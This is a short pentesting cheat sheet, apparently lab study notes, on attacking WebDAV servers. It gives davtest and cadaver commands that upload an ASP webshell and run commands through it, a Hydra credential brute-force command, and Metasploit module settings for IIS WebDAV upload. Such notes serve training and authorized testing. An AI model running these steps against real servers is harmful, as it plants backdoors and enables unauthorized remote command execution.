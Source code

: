# Webdav

- Requires creds to carry out attacks
- **Davtest** is a WebDAV scanner that sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files. The tool also tried to execute uploaded files and gives us an output of successfully executed files.
- **Cadaver** is a tool for WebDAV clients, which supports a command-line style interface. It supports operations such as uploading files, editing, moving, etc.

- run nmap script http-enum if port 80 is open : /webdav/ should exist
- `davtest -url http://10.0.16.177/webdav`
  
  ![davtest output 1](./images/webdav-01.png)

- `davtest -auth <user>:<password> -url http://10.0.16.177/webdav` : should tell what file extensions could be uploaded like asp for sending potential payloads
  
  ![davtest output 2](./images/webdav-02.png)
  
- /usr/share/webshells/asp/ - stores webshells
- cadaver http://10.0.16.177/webdav
	- enter legit creds
	- put /usr/share/webshells/asp/webshell.asp
	- access backdoor using browser - http://10.0.16.177/webdav/webshell.asp
	- http://10.0.16.177/webdav/webshell.asp?cmd=whoami

# Hydra

- `hydra -L <userlist> -P <passlist> <ip> http-get /webdav/`

# Metasploit

-	to get interactive session
- exploit/windows/iis/iis_webdav_upload_asp - use this module
	- set PATH /webdav/metasploit%RAND%.asp
	- set HttpUsername <user>
	- set HttpPassword <pass>

# References:

1. DAVTest (https://github.com/cldrn/davtest)
2. Cadaver (https://github.com/grimneko/cadaver)
3. ASP Webshell (https://raw.githubusercontent.com/tennc/webshell/master/asp/webshell.asp)